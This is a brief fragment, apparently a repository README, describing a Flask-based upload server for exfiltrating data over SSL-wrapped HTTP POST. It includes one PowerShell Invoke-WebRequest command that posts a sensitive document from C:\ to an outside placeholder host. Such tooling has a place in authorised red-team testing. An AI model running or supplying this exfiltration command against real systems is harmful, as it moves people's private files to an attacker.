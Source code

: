::Data ex-filtration using PowerShell-Invoke-WebRequest::

This python flask based file upload server accepts the raw file data stream and allows to transfer the data out inside SSL wrapped HTTP POST.

Usage: Invoke-WebRequest -Method POST -URI https://destination.com -Infile "C:\Senstive.docx"









